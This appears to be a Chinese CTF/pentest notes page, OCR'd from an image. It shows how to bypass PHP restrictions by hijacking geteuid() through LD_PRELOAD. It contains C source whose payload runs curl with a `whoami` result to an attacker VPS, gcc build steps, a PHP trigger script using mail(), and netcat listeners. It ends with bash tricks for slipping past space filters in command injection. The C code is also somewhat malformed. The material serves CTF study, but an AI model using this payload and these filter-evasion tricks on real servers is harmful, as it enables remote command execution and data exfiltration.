 ```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h> 
int main(){

void payload() {
system("curl http://vps_IP:4123/?a=`whoami`");
} 
int geteuid() {
if (getenv("LD_PRELOAD") == NULL) { return 0; }
unsetenv("LD_PRELOAD");
payload();
}
}
```

编译

```txt
gcc -c -fPIC a.c -o a 

gcc -shared a -o a.so
```

mail.php

```php
<?php

error_reporting(0);

putenv("LD_PRELOAD=/var/www/html/a.so");
mail("a@localhost","","","","");
```

监听vps的4123端口，访问mail.php。

```txt
netcat -lvp 4123
```

```txt
nc -lnvp 4123
```

---

## ctf绕过的小tip

### 空格

在bash下，可以用以下字符代替空格

```txt
<
${IFS}
$IFS$9
%09
```
